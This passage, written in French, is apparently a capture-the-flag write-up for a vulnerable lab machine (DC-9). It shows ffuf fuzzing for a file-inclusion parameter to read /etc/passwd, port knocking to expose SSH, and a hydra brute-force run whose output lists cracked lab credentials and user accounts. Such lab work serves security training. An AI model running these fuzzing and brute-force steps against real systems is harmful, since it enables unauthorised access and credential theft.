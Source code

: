 Quand on se connecte sur l'appli web avec le compte `admin` on peut alors accéder à interface permettant de rajouter de nouveaux utilisateurs. Une faille SQL est aussi présente, mais les requêtes se faisant avec le même compte MySQL, ça n'a pas vraiment d'intérêt.

J'ai relevé la présence du message `File does not exist` en pied de page de la section admin. J'ai tenté de trouver un paramètre qui permettrait une inclusion de fichier :

```bash
ffuf -u "http://192.168.56.140/welcome.php?FUZZ=/etc/passwd" -H "Cookie: PHPSESSID=ji8e4r3hdokmqg52e4tqmoo5ob;" -w common_query_parameter_names.txt -fs 963
```

Mais je n'ai rien trouvé. Je n'étais finalement pas très loin, car c'était la méthode attendue. Il fallait en fait spécifier un chemin relatif pour le `/etc/passwd` comme l'a fait [Hummus-Ful](https://hummus-ful.github.io/vulnhub/2021/01/22/DC-9.html).

À partir de là il était possible de fuiter la configuration du service `knockd` et donc de connaître la séquence pour rendre accessible le port 22.

Il faut croire que j'ai eu suffisamment de chance, car il m'a suffi de refaire un scan de port et cette fois le port 22 était accessible 🤞

J'ai donc compilé une liste de users et passwords depuis les données du dump et balancé tout ça à [GitHub - vanhauser-thc/thc-hydra: hydra](https://github.com/vanhauser-thc/thc-hydra) :

```console
$ hydra -L users.txt -P pass.txt ssh://192.168.56.140
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 324 login tries (l:18/p:18), ~21 tries per task
[DATA] attacking ssh://192.168.56.140:22/
[22][ssh] host: 192.168.56.140   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.56.140   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.56.140   login: janitor   password: Ilovepeepee
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

Tous les comptes trouvés sont standard (ne faisant pas partie d'un groupe particulier). On note qu'il y a un bon nombre d'utilisateurs sur le système :

```
marym:x:1001:1001:Mary Moe:/home/marym:/bin/bash
julied:x:1002:1002:Julie Dooley:/home/julied:/bin/bash
fredf:x:1003:1003:Fred Flintstone:/home/fredf:/bin/bash
barneyr:x:1004:1004:Barney Rubble:/home/barneyr:/bin/bash
tomc:x:1005:1005:Tom Cat:/home/tomc:/bin/bash
jerrym:x:1006:1006:Jerry Mouse:/home/jerrym:/bin/bash
wilmaf:x:1007:1007:Wilma Flintstone:/home/wilmaf:/bin/bash
bettyr:x:1008:1008:Betty Rubble:/home/bettyr:/bin/bash
chandlerb:x:1009:1009:Chandler Bing:/home/chandlerb:/bin/bash
joeyt:x:1010:1010:Joey Tribbiani:/home/joeyt:/bin/bash
rachelg:x:1011:1011:Rachel Green:/home/rachelg:/bin/bash
rossg:x:1012:1012:Ross Geller:/home/rossg:/bin/bash
monicag:x:1013:1013:Monica Geller:/home/monicag:/bin/bash
phoebeb:x:1014:1014:Phoebe Buffay:/home/phoebeb:/bin/bash
scoots:x:1015:1015:Scooter McScoots:/home/scoots:/bin/bash
janitor:x:1016:1016:Donald Trump:/home/janitor:/bin/bash
janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash
```
